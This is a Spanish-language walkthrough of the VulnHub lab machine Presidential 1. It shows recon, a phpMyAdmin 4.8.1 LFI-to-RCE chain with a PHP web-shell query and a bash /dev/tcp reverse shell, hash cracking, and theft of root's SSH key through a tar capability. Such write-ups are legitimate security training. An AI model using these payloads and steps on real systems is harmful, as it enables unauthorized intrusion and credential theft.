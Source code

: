 ```yaml
---
layout: single
title: Presidential 1 - VulnHub
excerpt: " Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched. "
date: 2023-02-27
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-presidential1/presidential.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - phpMyAdmin
  - LFI
  - RCE
  - MySQL
  - John
  - Capabilities
---
```


The Presidential Elections within the USA are just around the corner (November 2020). One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system, and falsifying the votes.


The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched.

# Summary
- IP: 192.168.1.42
- Ports: 80,2082
- OS: Linux (CentOS)
- Services & Applications:
	-  80 -> Apache httpd 2.4.6 ((CentOS)
	-  2082 -> OpenSSH 7.4 (protocol 2.0)

# Recon

- Escaneo básico de puertos:  

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.1.41 -oG allPorts
```


- Escaneo profundo de puertos encontrados:  

```bash
$nmap -p21,22,80 -sCV 192.168.1.41 -oN targeted
```




# Análisis de página web:


- Al analizar la página principal, vemos en el pie de página un dominio `"votenow.local"`, lo agregamos al "/etc/hosts" y accedemos.

- Al abrir este dominio vemos la misma página inicial, hacemos una búsqueda de directorios y archivos interesantes con gobuster:

```bash
$gobuster dir -u http://votenow.local/ -w /usr/share/SecLists/Discovery/Web-Content/common.txt -x zip,backup,bak,php.backup,php.bak,backup.php
```

- Encontramos un archivo `"config.php.bak"`, lo abrimos y en el código fuente encontramos unas credenciales para la base de datos, las guardamos en un archivo "credentials.txt".

- Hacemos búsqueda profunda de subdominios:

```bash
$gobuster vhost -u http://votenow.local -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 | grep -v "400"
```

- Encontramos el subdominio `"datasafe.votenow.local"`, lo agregamos al "/etc/hosts" y accedemos.



# phpMyAdmin 4.8.1 LFI to RCE:

- Nos encontramos con una página de `phpMyAdmin`, usamos aquí las credenciales anteriormente encontradas y accedemos.

- Primero ojeamos la base de datos, encontramos una base de datos llamada "votebox" con la tabla "users" en donde podemos ver el hash para el usuario "admin", guardamos este hash en un archivo "hash.txt"

- Buscamos vulnerabilidades para `phpMyAdmin` y encontramos un Local File Inclusion que podemos derivar a un `RCE`:

```bash
$searchsploit phpmyadmin
```

```bash
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)
```

```bash
searchsploit -x php/webapps/44928.txt
```

```
1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


- Entonces, ejecutamos una `Query`, en este caso, para ejecutar un comando que nos otorgue un parámetro "cmd" el cual lo usaremos para entablar una reverse shell desde el enlace:

```js
select "<?php echo passthru($_GET['cmd']); ?>"
```

- Ahora, accedemos mediante el `LFI` a la ruta que nos indica el exploit, corrigiendo en la parte de "sessions" a "session" y cambiando el valor de la cookie "11njnj4253qq93vjm9q93nvc7p2lq82k" por la nuestra:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg
```

- Comprobamos que haya ejecutado el comando que le dijimos ejecutando algo mediante el parámetro "cmd":

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg&cmd=ls -l /
```

- Y ahora entablamos una reverse shell:

```
http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_g3vpoi1ngebmq9a5ividh5g3ee10vmgg&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.35/443 0>%261"
```

- Ganamos acceso al sistema como el usuario `"apache"`



# ESCALANDO PRIVILEGIOS:

- Vemos que existe un usuario `"admin"` en el sistema.

- Usamos el hash que habíamos encontrado para intentar pivotar a este usuario (Tomará unos minutos el cracking de este hash, se recomienda usar hashcat):

```bash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt hash.txt
```

- Encontramos la contraseña para el usuario "admin", pivotamos a este:

```bash
$su admin
```

- Buscamos `capabilities`, y encontramos lo siguiente:

```bash
$getcap -r / 2>/dev/null

/usr/bin/tarS = cap_dac_read_search+ep
```


- Es decir, tenemos la capacidad de `lectura` de archivos usando el binario "tarS" el cual es equivalente al binario "tar".

- Usamos esta capacidad para `comprimir` un directorio al cual normalmente no tendríamos acceso, como lo es el directorio "/root/.ssh" en busca de credenciales de SSH:

```bash
$cd /tmp
$tarS -cvf root.tar /root/.ssh
```

- Ahora, descomprimimos este archivo ".tar" que hemos creado:

```bash
tarS -xf root.tar
```

- Abrimos el directorio `"/root/.ssh"` y copiamos el archivo `"id_rsa"` en nuestra máquina atacante:

- Ahora, le damos permisos al archivo y accedemos como root via SSH:

```bash
$ssh -i id_rsa root@192.168.1.43 -p 2082
```

- Y seremos `root`.


